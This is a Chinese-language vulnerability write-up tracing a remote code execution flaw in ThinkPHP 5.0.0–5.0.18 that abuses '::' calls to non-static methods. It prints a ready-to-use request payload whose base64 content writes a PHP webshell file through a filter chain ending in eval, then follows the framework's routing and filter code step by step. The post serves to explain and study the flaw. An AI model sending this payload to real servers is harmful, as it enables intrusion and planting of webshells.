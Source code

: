 # Thinkphp非静态方法调用RCE

**影响版本**

---

thinkphp5.0.0-5.0.18

### 写在前面

---

本篇文章参考y4师傅的博客

https://y4tacker.blog.csdn.net/article/details/115893304

## 前提

---

利用的重点在于在一定条件下可以使用::来调用非静态方法

首先我们需要了解静态属性和静态方法是如何调用的，静态属性一般使用self::进行调用，但是在该篇博客上面使用了::的骚操作，用::调用非静态方法

```
<?php
class People{
    static public $name = "pana";
    public $height = 170;

    static public function output(){
        //静态方法调用静态属性使用self
        print self::$name."<br>";
        //静态方法调用非静态属性（普通方法）需要先实例化对象
        $t = new People() ;
        print $t -> height."<br>";

    }

    public function say(){
        //普通方法调用静态属性使用self
        print self::$name."<br>";
        //普通方法调用普通属性使用$this
        print $this -> height."<br>";
    }
}
$pa = new People();
$pa -> output();
$pa -> say();
//可以使用::调用普通方法
$pan = People::say();
```



可以看到最后的输出，仍然输出了name的值，但是却没有输出height的值

![](https://s2.loli.net/2022/08/06/XdU1I3uDx6mTFLW.png)

原因在于：php里面使用双冒号调用方法或者属性时候有两种情况：

1. 直接使用::调用静态方法或者属性
2. ::调用普通方法时，需要该方法内部没有调用非静态的方法或者变量，也就是没有使用$this，这也就是为什么输出了name的值而没有输出height

了解上面这些，我们就可以开始下面的分析

## 分析

---

先放上流程图（本人比较菜鸡 所以只能用这种方法记录下来流程）

![](https://s2.loli.net/2022/08/06/JD31cvLahAoYCiS.png)

首先放上payload

```
path=PD9waHAgZmlsZV9wdXRfY29udGVudHMoJzIyMi5waHAnLCc8P3BocCBwaHBpbmZvKCk7Pz4nKTsgPz4=&_method=__construct&filter[]=set_error_handler&filter[]=self::path&filter[]=base64_decode&filter[]=\think\view\driver\Php::Display&method=GET
```

#### payload的分析

----

这里的base解码为<?php file_put_contents('222.php','<?php phpinfo();?>'); ?>，使用变量覆盖将_method的值设置为_construct，这里的set_error_handler是设置用户自定义的错误处理程序，能够绕过标准的php错误处理程序，接下来就是调用\think\view\driver\Php下面的Display方法，因为我们要利用里面的

```
eval('?>' . $content);
```

完成写shell的目的

![](https://s2.loli.net/2022/08/06/hNG2c5ykH6es9Co.jpg)

虽然会报错，但是不影响写入

![](https://s2.loli.net/2022/08/06/fSiaqDMymAFpEWK.png)

首先从App.php开始，在routeCheck方法处打断点

```
public static function routeCheck($request, array $config)
{
    $path   = $request->path();
    $depr   = $config['pathinfo_depr'];
    $result = false;
    // 路由检测
    $check = !is_null(self::$routeCheck) ? self::$routeCheck : $config['url_route_on'];
    if ($check) {
        // 开启路由
        if (is_file(RUNTIME_PATH . 'route.php')) {
            // 读取路由缓存
            $rules = include RUNTIME_PATH . 'route.php';
            if (is_array($rules)) {
                Route::rules($rules);
            }
        } else {
            $files = $config['route_config_file'];
            foreach ($files as $file) {
                if (is_file(CONF_PATH . $file . CONF_EXT)) {
                    // 导入路由配置
                    $rules = include CONF_PATH . $file . CONF_EXT;
                    if (is_array($rules)) {
                        Route::import($rules);
                    }
                }
            }
        }
```



这一步主要是获取$path的值，也就是我们要走的路由captcha

![](https://s2.loli.net/2022/08/06/uAswVc5G1l43TID.png)

继续往下走，$result = Route::check($request, $path, $depr, $config['url_domain_deploy']);，跟进check方法，这里面的重点就是获取method的值，$request->method()

![](https://s2.loli.net/2022/08/06/ZeN8iGqozrfpIb3.png)

这里是调用var_method，因为我们传入了_method=__construct，也就是变量覆盖

![](https://s2.loli.net/2022/08/06/lkvaVmRCW3Yo7Lt.png)

那下一步继续跟进__construct，走完construct函数后，可以看到大部分的值都是我们希望传进去的，这时method的值为GET，也就是为什么payload里面要传GET的原因

![](https://s2.loli.net/2022/08/06/bGsZEV8cerRWJaA.png)

下一步要获取当前请求类型的路由规则

```
$rules = self::$rules[$method];
```

可以看到这里的rule和route的值都发生了改变，路由值为\think\captcha\CaptchaController@index

![](https://s2.loli.net/2022/08/06/jIgP5U4E8ZTdiLV.png)

接下来跟进routeCheck()方法，走完这个方法后，返回result值

![](https://s2.loli.net/2022/08/06/ZdpSnOclJqrafFU.png)

接下来进入dispatch方法

![](https://s2.loli.net/2022/08/06/SwkRAUhrG5qFyQa.png)

![](https://s2.loli.net/2022/08/06/AOUKWMHRPSL4daj.png)

接下来进入param方法，合并请求参数和url地址栏的参数

```
$this->param = array_merge($this->get(false), $vars, $this->route(false));
```

![](https://s2.loli.net/2022/08/06/6xTl1HyvS9XE2LR.png)

然后进入get方法，继续跟进input方法

![](https://s2.loli.net/2022/08/06/c5HPFnirx2ETBtX.png)

![](https://s2.loli.net/2022/08/06/lSGL57UsjZzIbWn.png)

然后就会回到filterValue方法执行任意方法

![](https://s2.loli.net/2022/08/06/4cH2rzTie1Z9tEg.png)

![](https://s2.loli.net/2022/08/06/tcDqXB87z93sTiY.png)